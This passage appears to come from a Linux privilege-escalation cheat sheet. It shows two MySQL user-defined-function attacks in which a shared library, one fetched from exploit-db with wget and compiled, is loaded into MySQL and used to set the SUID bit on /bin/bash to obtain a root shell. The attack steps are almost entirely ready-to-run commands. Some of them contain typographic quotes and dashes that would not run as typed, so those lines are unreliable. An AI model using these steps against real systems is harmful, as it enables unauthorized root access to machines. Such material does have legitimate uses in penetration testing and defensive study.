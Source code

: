 Example 2 (Local via SUID)

Download UDF (Linux - 64 Bit) = https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/mysql/linux/64
Download UDF (Linux - 32 Bit) = https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/mysql/linux/32

Victim

```
ps aux | grep root                        //  Verify that MySQL is running as root
Save the UDF in the /tmp folder ( Example: /tmp/lib_mysqludf_sys.so)
mysql -u root -p

mysql> use mysql;
mysql> create table admin(line blob);
mysql> insert into admin values(load_file('/tmp/lib_mysqludf_sys.so'));
mysql> select * from admin into dumpfile '/usr/lib/lib_mysqludf_sys.so';
mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
mysql> select sys_exec('chmod +s /bin/bash');
mysql> exit
Wait a while
ls -la /bin/bash                         // Verify that the SUID bit is set 
/bin/bash -p
id && whoami
```
Example 3 (Explioting MySQL 4.x/5.0 (Linux))

UDF Link: https://www.exploit-db.com/exploits/1518

Victim
```
wget -O priv.c https://www.exploit-db.com/download/1518
gcc –g –shared –Wl,–soname,priv.so –o priv.so priv.c –lc
chmod 777 priv.so
mv priv.so /tmp/
mysql -u root -p 

mysql> create table priv(line blob);
mysql> insert into priv values(load_file(‘/tmp/priv.so’));
mysql> select * from priv into dumpfile ‘/usr/lib/mysql/plugin/priv.so’;
mysql> create function do_system returns integer soname ‘priv.so’;
mysql> select do_system(‘chmod +s /bin/bash’);
mysql>!sh
/bin/bash -p
id && whoami

// priv.c can be called anything
// The "priv" table name can be named anything
// Ensure that the path to the UDF (.so) is correct
// Replace IP & Port
```
# Sudo Injection (Sudo Token)
